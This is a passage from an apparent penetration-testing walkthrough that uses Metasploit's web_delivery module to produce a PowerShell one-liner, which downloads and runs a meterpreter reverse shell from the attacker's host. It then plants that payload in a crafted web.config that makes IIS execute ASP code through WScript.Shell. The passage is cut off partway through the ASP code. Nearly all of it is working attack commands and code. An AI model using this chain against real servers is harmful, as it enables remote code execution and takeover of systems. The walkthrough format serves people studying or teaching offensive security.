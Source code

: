 ```bash
   --  ----
   0   Python

```

We will now specify several parameters in order to adapt the payload to our environment.

```bash
msf exploit(multi/script/web_delivery) > set SRVHOST 10.10.13.75  # Ip address of our machine
SRVHOST => 10.10.13.75
msf exploit(multi/script/web_delivery) > set TARGET 2  # TARGET 2 = powershell payload 
TARGET => 2
msf exploit(multi/script/web_delivery) > set PAYLOAD windows/x64/meterpreter/reverse_tcp  # The payload we want to inject, a reverse shell
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf exploit(multi/script/web_delivery) > set LHOST 10.10.13.75  # IP address for the reverse shell
LHOST => 10.10.13.75
msf exploit(multi/script/web_delivery) > exploit 
[*] Exploit running as background job 0.
msf exploit(multi/script/web_delivery) > 
[*] Started reverse TCP handler on 10.10.13.75:4444 
[*] Using URL: http://10.10.13.75:8080/moceswFJvKmkeD8
[*] Server started.
[*] Run the following command on the target machine:
powershell.exe -nop -w hidden -c $g=new-object net.webclient;$g.proxy=[Net.WebRequest]::GetSystemWebProxy();$g.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $g.downloadstring('http://10.10.13.75:8080/moceswFJvKmkeD8');
```
Here is our payload! We must now integrate it into the **web.config** file. Do not close the msfconsole or hit CTR+C because Metasploit is currently listening and waiting for the payload to return.

#### Payload Incorporation

As you may have noticed, the payload is a **powershell script** (remember *set TARGET 2*) and not an **ASP** script.
However, we can call system functions in **ASP** so we will call **cmd.exe** and pass our payload as an argument.

This will result in the following **web.config** file:


```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
<system.webServer>
<handlers accessPolicy="Read, Script, Write">
<add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
</handlers>
<security>
<requestFiltering>
<fileExtensions>
<remove fileExtension=".config" />
</fileExtensions>
<hiddenSegments>
<remove segment="web.config" />
</hiddenSegments>
</requestFiltering>
</security>
</system.webServer>
</configuration>
<%
on error resume next
Dim oS,output
Set oS = Server.CreateObject("WSCRIPT.SHELL")
```